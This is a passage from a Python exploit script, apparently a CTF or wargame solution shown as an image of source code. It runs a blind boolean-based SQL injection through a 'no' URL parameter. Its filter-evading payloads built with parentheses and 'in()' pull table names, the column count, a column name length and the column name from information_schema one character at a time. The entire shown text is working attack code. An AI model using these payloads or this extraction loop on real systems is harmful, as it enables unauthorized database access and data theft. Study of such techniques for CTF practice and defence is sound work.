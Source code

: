 ```python
        payload = f"(0)or(ord(substr((select(min(if((select(table_schema)in(database())),table_name,null)))from(information_schema.tables)),{i},1))in({j}))"

        response = requests.get(f"{url}?no={payload}", cookies=cookies)

        if "<td>1</td>" in response.text:
            table1_name += chr(j)
            print(f"table1_name: {table1_name}")
            break

# 5. Find the table2 name
table2_name = ''
for i in range(1, table2_len + 1):
    for j in range(32, 128):
        payload = f"(0)or(ord(substr((select(max(if((select(table_schema)in(database())),table_name,null)))from(information_schema.tables)),{i},1))in({j}))"

        response = requests.get(f"{url}?no={payload}", cookies=cookies)

        if "<td>1</td>" in response.text:
            table2_name += chr(j)
            print(f"table2_name: {table2_name}")
            break

# 6. Find the number of columns in table1
bin_table_name = bin(int(binascii.hexlify(table1_name.encode()), 16))
column_num = 0
for i in range (1, 20):
    payload = f"(0)or(select(count(if((select(table_name)in({bin_table_name})),column_name,null)))from(information_schema.columns))in({i})"

    response = requests.get(f"{url}?no={payload}", cookies=cookies)

    if "<td>1</td>" in response.text:
        column_num = i
        print(f"colum_num: {column_num}")
        break

# 7. Find the length of the column name
column_len = 0
for i in range (1, 20):
    payload = f"(0)or(length((select(min(if((select(table_name)in({bin_table_name})),column_name,null)))from(information_schema.columns)))in({i}))"

    response = requests.get(f"{url}?no={payload}", cookies=cookies)

    if "<td>1</td>" in response.text:
        column_len = i
        print(f"column_len: {column_len}")
        break

# 8. Find the column name
column_name = ''
for i in range (1, column_len + 1):
    for j in range (32, 128):
        payload = f"(0)or(ord(substr((select(min(if((select(table_name)in({bin_table_name})),column_name,null)))from(information_schema.columns)),{i},1))in({j}))"

        response = requests.get(f"{url}?no={payload}", cookies=cookies)

        if "<td>1</td>" in response.text:
            column_name += chr(j)
            print(f"column_name: {column_name}")
```